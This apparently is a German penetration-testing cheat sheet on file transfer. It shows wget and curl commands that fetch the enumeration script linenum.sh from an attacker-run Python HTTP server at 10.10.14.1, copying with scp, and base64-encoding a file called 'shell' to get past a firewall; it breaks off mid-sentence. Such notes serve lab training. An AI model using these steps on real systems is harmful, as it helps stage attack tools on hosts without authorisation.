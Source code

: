 Um Daten übertragen zu können von einer Maschine zu einer anderen können wir folgendes machen:
# Using wget
Dafür müssen wir im Verzeichnis wo unsere Datei sich befindet einen `python HTTP Server` laufen lassen, dieser ist zu gleich unser listining server
```shell-session
cd /tmp   #Hier befindet sich die Datei
python3 -m http.server 8000
```

Nun können wir com Zielhost die Datei runterladen
```shell-session
wget http://10.10.14.1:8000/linenum.sh
```
wenn du kein wget hast, kannst du auch mit curl machen:
```shell-session
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

____

# Using SCP
**Voraussetzung wir haben ssh user credentials** 
```shell-session
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

___

# Using BASE64
Wenn du *nicht* Files transferieren kannst, weil zb eine Firewall da ist, kannst du deine Datei in BASE64 Encoden und dies dann senden, z.b. wollen wir eine **Datei** namens shell, `-w` sorgt dafür, dass keine Zeilenumbrüche beim decoden passie 
```shell-session
base64 shell -w 0
```
